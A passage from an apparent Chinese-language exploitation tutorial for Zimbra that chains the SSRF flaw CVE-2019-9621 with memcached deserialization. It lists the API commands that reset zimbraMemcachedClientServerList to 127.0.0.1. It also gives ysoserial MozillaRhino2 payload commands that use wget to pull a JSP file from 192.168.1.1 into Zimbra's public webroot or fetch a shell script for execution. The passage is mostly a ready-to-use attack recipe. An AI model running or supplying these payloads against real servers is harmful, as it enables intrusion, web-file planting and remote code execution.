 zimbraMemcachedClientServerList的值需要设置为127.0.0.1

第二种情况过于苛刻，通常为第一种情况， 所以接下来介绍配合SSRF(CVE-2019-9621)漏洞的利用方法

### 2.利用流程

SSRF(CVE-2019-9621)漏洞的利用可使用之前开源的脚本[Zimbra_SOAP_API_Manage.py](https://github.com/3gstudent/Homework-of-Python/blob/master/Zimbra_SOAP_API_Manage.py)

#### (1)创建用户

使用命令CreateAccountSSRF，创建新的用户

#### (2)查看配置

使用命令GetMemcachedClientConfigSSRF获得zimbraMemcachedClientServerList，如果结果不是127.0.0.1，需要重新设置

#### (3)设置zimbraMemcachedClientServerList

使用命令GetServerSSRF获得ServerID，用作参数

使用命令ModifyServerSSRF修改配置，名称为zimbraMemcachedClientServerList，值为127.0.0.1

#### (4)重新加载

使用命令ReloadMemcachedClientConfigSSRF，使得修改生效

#### (5)生成Payload

使用[ysoserial](https://github.com/frohoff/ysoserial/)中的MozillaRhino2功能

MozillaRhino2在代码实现上通过exec()方法实现执行Linux命令，这里需要注意exec()方法无法执行带有特殊字符的命令，例如`|` `>`

也就说是，无法通过特殊字符`>`实现文件写入操作

这里可以换用wget命令实现

命令示例1：直接下载jsp文件

```
java -jar ysoserial.jar MozillaRhino2 "/usr/bin/wget https://192.168.1.1/test.jsp --no-check-certificate -O /opt/zimbra/jetty/webapps/zimbra/public/test.jsp" > payload.obj
```

命令示例2：下载sh脚本，然后去执行

test.sh的内容如下：

```
#!/bin/sh
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/git/bin:/usr/local/sbin:~/bin
echo $PWD >/tmp/test
```

生成Payload的命令：

```
java -jar ysoserial.jar MozillaRhino2 "/usr/bin/wget https://192.168.1.1/test.sh --no-check-certificate -O /tmp/test.sh" > payload.obj

```
